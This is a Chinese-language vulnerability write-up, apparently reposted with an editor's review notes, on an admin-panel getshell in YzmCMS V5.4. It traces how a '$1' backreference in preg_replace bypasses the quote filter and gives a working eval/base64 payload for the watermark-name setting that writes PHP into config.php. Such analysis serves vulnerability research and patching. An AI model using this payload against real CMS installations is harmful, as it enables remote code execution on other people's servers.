



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：adminsystemsave;allowedfourkeys; writableconfig;PHPevalavailability

- **结论使用边界（1）**：$1在replacement展开恢复被禁引号的解释/完整链较清楚，应保留与644不同原语。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（2）**：代码称补丁移除逗号/$但所示set_config仍旧版，需标前后版本/具体commit。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（3）**：图片混3.6RCE/5.7SQLi目录，结果未文本化；common路径commom易错。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **操作与副作用边界（4）**：chmod0777源码提示不应成为修复指导；配置写入持久影响需回滚说明。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **事实待核（5）**：来源xz精确，缺首修版本。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# YzmCMS V5.4 后台getshell（二）

一、漏洞简介
------------

二、漏洞影响
------------

YzmCMS V5.4

三、复现过程
------------

### 漏洞分析

这个cms中有一些配置项是写在文件中，也有一些是写在数据库中的，例如上一个漏洞提到的`mode`就是写在文件中，而我们的payload是写在数据库中再进行读取的，为了避免上面手动修改配置文件这一过程，我找到了一个函数可以修改配置文件，但是问题是只能对规定的4个key进行修改，所以是不能直接修改`mode`这个key的。于是我回去查看补丁，发现修改配置的函数也进行了修改。

/media/rId25.png)

该函数位于文件`application/admin/common/function/function.php`

    function set_config($config) {
        $configfile = YZMPHP_PATH.'common'.DIRECTORY_SEPARATOR.'config/config.php';
        if(!is_writable($configfile)) showmsg('Please chmod '.$configfile.' to 0777 !', 'stop');
        $pattern = $replacement = array();
        foreach($config as $k=>$v) {
            $pattern[$k] = "/'".$k."'\s*=>\s*([']?)[^']*([']?)(\s*),/is";
            $replacement[$k] = "'".$k."' => \${1}".$v."\${2}\${3},";                    
        }
        $str = file_get_contents($configfile);
        $str = preg_replace($pattern, $replacement, $str);
        return file_put_contents($configfile, $str, LOCK_EX);       
    }

可以看到，补丁在原来的函数中增加了一行代码，将传入的`$config`中的字符`,`和`$`移除了，而原先就直接经过特定的正则表达式将`config.php`文件中的内容进行替换后再写回去。

调用这个函数的地方，除了安装的页面就只有`application/admin/controller/system_manage.class.php`中的`save`

    public function save() {
            yzm_base::load_common('function/function.php', 'admin');
            if(isset($_POST['dosubmit'])){
                if(isset($_POST['mail_inbox']) && $_POST['mail_inbox']){
                    if(!is_email($_POST['mail_inbox'])) showmsg(L('mail_format_error'));
                }
                if(isset($_POST['upload_types'])){
                    if(empty($_POST['upload_types'])) showmsg('允许上传附件类型不能为空！', 'stop');
                }
                $arr = array();
                $config = D('config');
                foreach($_POST as $key => $value){
                    if(in_array($key, array('site_theme','watermark_enable','watermark_name','watermark_position'))) {
                        $value = safe_replace(trim($value));
                        $arr[$key] = $value;
                    }else{
                        if($key!='site_code'){
                            $value = htmlspecialchars($value);
                        }
                    }
                    $config->update(array('value'=>$value), array('name'=>$key));
                }
                set_config($arr);
                delcache('configs');
                showmsg(L('operation_success'), '', 1);
            }
        }

在`save`中，只有key为`'site_theme','watermark_enable','watermark_name','watermark_position'`的配置项会经过`safe_replace`后传入`set_config`，其他项则是直接在数据库中更新。

`safe_replace`则对一些特殊字符进行了过滤

    function safe_replace($string) {
        $string = str_replace('%20','',$string);
        $string = str_replace('%27','',$string);
        $string = str_replace('%2527','',$string);
        $string = str_replace('*','',$string);
        $string = str_replace('"','',$string);
        $string = str_replace("'",'',$string);
        $string = str_replace(';','',$string);
        $string = str_replace('<','&lt;',$string);
        $string = str_replace('>','&gt;',$string);
        $string = str_replace("{",'',$string);
        $string = str_replace('}','',$string);
        $string = str_replace('\\','',$string);
        return $string;
    }

审计完代码以后我们可以发现post过去的值，只有特定的key会被写入配置文件，而value不能包含`safe_replace`中的特殊字符，最后value会被拼接成为`preg_replace`中的第二个参数`$replacement`的一部分。而在`$replacement`中用了`${1}`这样的形式来指定上文匹配到的`'`，虽然`{}`被过滤了，但是`$1`实际上是与`${1}`等价的，因此我们通过这种方式闭合单引号，然后`,`也没有被过滤，所以我们可以在键值对的后面插入别的代码，可惜的是`>`是被过滤的，所以我们无法插入`key => value`这样的形式来修改项。不过可以直接插入函数，像`array(0=>1,func())`的形式中，`func`是会被执行的，并且将返回值作为value成为array的一部分。

所以只要闭合了单引号，再传递一个eval过去就可以执行代码了，因为有过滤函数，所以可以再套一层base64。

### 漏洞复现

设置的接口在系统管理的系统设置中的附加设置处。

/media/rId27.png)

通过上文的分析我们来构建payload。

将`system('echo 123');`base64\_encode以后为`c3lzdGVtKCdlY2hvIDEyMycpOw==`，套一层eval并且闭合单引号后payload为

    $1,eval(base64_decode($1c3lzdGVtKCdlY2hvIDEyMycpOw==$1)),$1

先查看配置文件原先的内容

/media/rId28.png)

回到页面，`水印图片名称`就是可用的一个配置项，在这个地方写入我们的payload并提交。

/media/rId29.png)

提交以后可以发现已经成功执行命令了

/media/rId30.png)

再回去查看配置文件可以看到代码也写入了

/media/rId31.png)

参考链接
--------

> https://xz.aliyun.com/t/7231\#toc-5
